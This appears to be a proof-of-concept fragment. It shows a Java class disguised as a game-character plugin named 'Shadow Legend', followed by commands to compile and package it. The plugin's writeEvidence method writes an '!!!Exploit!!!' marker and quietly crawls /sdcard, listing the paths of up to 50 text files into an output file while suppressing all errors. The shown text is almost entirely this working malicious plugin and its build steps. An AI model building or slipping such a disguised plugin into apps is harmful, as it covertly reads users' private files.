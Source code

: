 ```java
    // use Simple Plugin Adapter
    public String getName() { return "Shadow Legend"; }
    public String getType() { return "Dark"; }
    @SuppressWarnings({"rawtypes","unchecked"})
    public Map getAllData() {
        Map m = new HashMap();
        m.put("description", "A silent assassin from the night.");
        m.put("imageResourceId", 0);
        m.put("abilities", Arrays.asList("Stealth","Shadow Steal"));
        Map stats = new HashMap();
        stats.put("HP",120); stats.put("Attack",100); stats.put("Defense",80);
        stats.put("Sp. Attack",110); stats.put("Sp. Defense",90); stats.put("Speed",120);
        m.put("stats", stats);
        return m;
    }

    private void writeEvidence(File out) {
        try (BufferedWriter bw = new BufferedWriter(new FileWriter(out, false))) {
            bw.write("!!!Exploit!!!\n");
            // list .txt files in sdcard
            File root = new File("/sdcard");
            int wrote = 0;
            Deque<File> q = new ArrayDeque<>();
            q.add(root);
            while (!q.isEmpty() && wrote < 50) {
                File d = q.removeFirst();
                File[] list = d.listFiles();
                if (list == null) continue;
                for (File f : list) {
                    if (f.isDirectory()) { q.addLast(f); continue; }
                    if (f.getName().toLowerCase().endsWith(".txt")) {
                        bw.write("[+] " + f.getAbsolutePath() + "\n");
                        wrote++;
                        if (wrote >= 50) break;
                    }
                }
            }
            bw.flush();
        } catch (Throwable ignored) {}
    }
}
```

```bash
mkdir -p build/classes build/dex
```

And here's the *compilation process*:
```bash
javac -encoding UTF-8 -source 1.8 -target 1.8 -d build/classes src/ShadowLegend.java
```

```bash
jar -cf build/classes.jar -C build/classes .
```
